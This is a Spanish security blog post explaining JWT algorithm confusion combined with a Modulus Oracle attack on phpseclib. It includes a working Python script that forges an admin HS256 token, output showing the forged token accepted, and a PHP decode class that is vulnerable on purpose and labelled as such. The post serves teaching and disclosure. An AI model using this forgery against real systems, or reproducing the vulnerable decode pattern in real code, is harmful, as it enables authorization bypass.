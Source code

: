 ```yaml
---
layout: post
title: "Modulus Oracle & JWT"
author: "RoP Team"
description: "Rompiendo un JWT vulnerable con Modulus Oracle"
keywords: "RSA, JWT, crypto, oracle, modulus"
date: 2020-06-21 00:00:00 -0500
categories: pentesting
lang: es
lang-ref: modulus-oracle-part2
---
```


En una [publicación anterior][1] hablamos sobre el *Modulus Oracle Attack*. Esta técnica explota la capacidad de tratar un *modulus error* como un oráculo para inferir el valor del módulo y reconstruir la llave pública. En realidad, esto no debería ser un problema. La llave pública es "pública" de cualquier modo. Pero en ciertos casos, conocer la llave pública, puede ser muy útil. El siguiente es uno de esos casos.

<!--more-->

### JWT y el cambio de algoritmo

[JWT][2] es una tecnología utilizada ampliamente para implementar autorización en aplicaciones web. Nos permite crear y verificar tokens de autorización utilizando criptografía para garantizar la integridad de los tokens. Sin embargo, existen vulnerabilidades en ciertas implementaciones de JWT que nos permiten falsificar tokens y burlar los controles de autorización. Un ataque contra algunas librerías de JWT se detalla en [este post][3]. Hoy todas estas vulnerabilidades deberían estar corregidas pero aún es posible encontrarlas con la ayuda de un desarrollador descuidado.

Por ejemplo, es muy fácil meter la pata al usar la librería para python [Authlib][4]. El siguiente código muestra como la función `decode` acepta sin distinción un token válido y otro falsificado. Estamos usando `Authlib 0.14.3` (la última versión a la fecha)

```py
from base64 import urlsafe_b64encode as enc
from base64 import urlsafe_b64decode as dec
from Crypto.Hash import HMAC, SHA256
from Crypto.PublicKey import RSA
import json

from authlib.jose import jwt


# Generate a RSA keys pair
private_key = RSA.generate(1024)
public_key = private_key.publickey()

# Generate a valid RS256 signed token
valid_token = jwt.encode(
    {'alg': 'RS256'},
    {'admin': False},
    private_key.export_key()
)
print('VALID TOKEN: {}'.format(valid_token))

# Forging a HS256 signed token
header = enc(json.dumps({'alg': 'HS256'}).encode()).strip(b'=')
body = enc(json.dumps({'admin': True}).encode()).strip(b'=')
signature = enc(HMAC.new(
    public_key.export_key(),
    b'.'.join([header, body]),
    SHA256
).digest()).strip(b'=')
forged_token = b'.'.join([header, body, signature])
print('FORGED TOKEN: {}'.format(forged_token))

# decoding the valid token
data = jwt.decode(valid_token, public_key.export_key())
print('REAL DATA: {}'.format(data))

# decoding the forged token
data = jwt.decode(forged_token, public_key.export_key())
print('FAKE DATA: {}'.format(data))
```

**Salida:**
```
VALID TOKEN: b'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2V9.eo7MNx1XBcZ5dw_EY4yTLrO0rSGkOODeUBapQ__QTx6NzbnF65Gre2hcRpBOx3Mq24AR4LNnG2Kso2EboeS7qNZbC8fiTxO7YlKufbHoOXy1-p5_31AhuvOewncksvhOb7F5Y0WZX5vmAdKv7MlOSZIlMwRvJaoSRbjqkfEC7Xc'
FORGED TOKEN: b'eyJhbGciOiAiSFMyNTYifQ.eyJhZG1pbiI6IHRydWV9.BlEUBfCRolm91O1gOSXPPSJJkmVXjsfiNY5JwNojdBY'
REAL DATA: {'admin': False}
FAKE DATA: {'admin': True}
```

Escribir código vulnerable puede ser un poco más difícil con otras librerías pero no imposible.

Como puedes ver, para explotar esta vulnerabilidad necesitamos la llave pública. Podemos usar la llave pública del certificado SSL/TLS, pero nada garantiza que estas llaves sean las mismas. Así que tuvimos la idea de realizar un *Modulus Oracle Attack* para obtener la llave pública. Buscamos librerías JWT razonablemente débiles y vulnerables a Modulus Oracle y encontramos una.

### gree/jose

[gree/jose][5] es una librería JWT para PHP. Las versiones antiguas (<=2.2.0) de esta librería son vulnerables al cambio de algoritmo. La versión actual (2.2.1) no es vulnerable pero con la ayuda de nuestro desarrollador podría serlo. Si echamos un vistazo al [parche][6] introducido en la versión actual veremos que los algoritmos HMAC se deshabilitan cuando el algoritmo de firmado es autodetectado por la librería. De esta manera se previene el código vulnerable cuando un desarrollador perezoso olvida especificar el algoritmo de firmado en la función `verify`. Pero nuestro desarrollador podría pensar que es una idea genial programar su propia clase utilitaria que autodetecte el algoritmo y escribir algo como lo siguiente:

```php
class JWTUtil {
    function encode($data, $key, $algorithm='HS256') {
        $jwt = new JOSE_JWT($data);
        $jwt = $jwt->sign($key, $algorithm);
        return $jwt->toString();
    }
    
    function decode($token, $key) {
        try {
            $jwt = JOSE_JWT::decode($token);
            $jwt->verify($key, $jwt->header['alg']); // autodetect algorithm
        } catch (Exception $err) {
            return NULL;
        }
        return $jwt->claims;
    }
}
```

> **ADVERTENCIA:** El código anterior es **VULNERABLE** y ha sido colocado únicamente con fines demostrativos.

### phpseclib

Internamente `gree/jose` depende de [phpseclib][7]. Esta es una librería, en puro PHP, con implementaciones de algoritmos criptográficos. Actualmente la última versión publicada es la 2.0.27. Si revisamos el código fuente, veremos que el método `JWT::verify` de gree/jose llega hasta el método `RSA::_rsavp1` de phpseclib. Veamos este último.

Fuente: [phpseclib github][8]
```php
function _rsavp1($s)
{
    if ($s->compare($this->zero) < 0 || $s->compare($this->modulus) > 0) {
        user_error('Signature representative out of range');
        return false;
    }
    return $this->_exponentiate($s);
}
```

Como podemos ver, este método valida que la firma (`$s`) esté en el rango $$[0, N]$$ (con $$N$$ como el módulo). Cuando la firma está fuera del rango, un error de usuario se dispara y se muestra en la página web como un mensaje **Notice**. Así tenemos un comportamiento identificable para realizar un Modulus Oracle Attack.

> Para que los errores se muestren en la página web, el valor de la directiva `display_errors` de PHP debe ser `On`.

Ahora tenemos todas las piezas: una implementación vulnerable de JWT y un Modulus Oracle. Vamos a la demo.

### Demo

Hemos publicado en nuestro [repositorio de Github][9] una aplicación vulnerable estilo CTF para demostrar el ataque descrito. Puedes intentar resolverlo por tu cuenta o mirar la solución en el script `modulus-oracle-jwt.py`.

<iframe width="560" height="315" src="https://www.youtube.com/embed/ygOps-lZaxc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<br>

Debido a que las aplicaciones web generalmente no muestran errores, es poco probable que podamos usarlos para obtener un Modulus Oracle. Pero es posible obtener un Modulus Oracle de otra forma.

Continuará...


[1]: https://blog.rop.la/en/pentesting/2020/06/15/modulus-oracle-part1.html
[2]: https://jwt.io/introduction/
[3]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries
[4]: https://github.com/lepture/authlib
[5]: https://github.com/nov/jose-php
[6]: https://github.com/nov/jose-php/commit/1cce55e27adf0274193eb1cd74b927a398a3df4b
[7]: https://github.com/phpseclib/phpseclib
[8]: https://github.com/phpseclib/phpseclib/blob/2.0.27/phpseclib/Crypt/RSA.php#L2426
[9]: https://github.com/rop-la/modulus-oracle-jwt